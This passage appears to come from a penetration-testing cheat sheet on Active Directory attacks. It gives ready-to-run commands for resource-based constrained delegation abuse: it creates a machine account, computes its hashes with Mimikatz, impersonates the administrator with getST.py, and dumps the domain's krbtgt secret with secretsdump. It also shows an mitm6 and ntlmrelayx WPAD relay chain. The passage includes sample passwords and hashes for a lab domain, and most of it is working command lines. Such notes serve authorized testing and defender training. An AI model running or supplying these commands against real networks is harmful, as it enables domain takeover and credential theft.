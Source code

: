 Or with Mimikatz:

```
mimikatz # kerberos::hash /domain:megacorp.local /user:fakemachine1337 /password:Passw0rd!
        * rc4_hmac_nt       fc525c9683e8fe067095ba2ddc971889
        * aes128_hmac       01c7b89a74f7aec1007ded2f3de0a815
        * aes256_hmac       211e8e3134ed797b0a2bf6c36d1a966b3bed2b24e4aaa9eceed23d0abf659e98
        * des_cbc_md5       621a91461f1adffe
```

Now you can impersonate a protected user:

```
$ addcomputer.py -computer-name fakemachine1337 -computer-pass 'Passw0rd!' -dc-ip 10.10.13.37 -dc-host DC01.megacorp.local megacorp.local/snovvcrash:'Qwe123!@#'
$ python3 rbcd.py -t 'CN=dc01,OU=Domain Controllers,DC=megacorp,DC=local' -d megacorp.local -c 'CN=fakemachine1337,CN=Computers,DC=megacorp,DC=local' -u snovvcrash -H 79bfd1ab35c67c19715aea7f06da66ee:79bfd1ab35c67c19715aea7f06da66ee -l 10.10.13.37
$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'administrator' -dc-ip 10.10.13.37 megacorp.local/fakemachine1337 -hashes :fc525c9683e8fe067095ba2ddc971889 -aesKey 211e8e3134ed797b0a2bf6c36d1a966b3bed2b24e4aaa9eceed23d0abf659e98 -force-forwardable
$ secretsdump.py DC01.megacorp.local -just-dc-user 'MEGACORP\krbtgt' -dc-ip 10.10.13.37 -no-pass -k
```




## RBCD for PrivEsc

- [https://exploit.ph/delegate-2-thyself.html](https://exploit.ph/delegate-2-thyself.html)
- [https://exploit.ph/revisiting-delegate-2-thyself.html](https://exploit.ph/revisiting-delegate-2-thyself.html)
- [https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation/](https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation/)
- [https://0xdf.gitlab.io/2021/11/08/htb-pivotapi-more.html#dcsync](https://0xdf.gitlab.io/2021/11/08/htb-pivotapi-more.html#dcsync)




## DHCPv6 + WPAD + LDAPS NTLM Relay + RBCD

* [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
* [https://chryzsh.github.io/relaying-delegation/](https://chryzsh.github.io/relaying-delegation/)
* [https://www.exploit-db.com/docs/48282](https://www.exploit-db.com/docs/48282)
* [[PDF] From Zero Credential to Full Domain Compromise (Haboob Team)](https://drive.google.com/file/d/1htCGIt1Wcg53zCSGnRk4wfcKOk5A_YDP/view?usp=sharing)

```
$ ntlmrelayx.py -t ldaps://DC01.megacorp.local --delegate-access --no-smb-server -wh attacker-wpad --no-da --no-acl --no-validate-privs [-debug]
$ sudo mitm6 -i eth0 -d megacorp.local --ignore-nofqdn
```



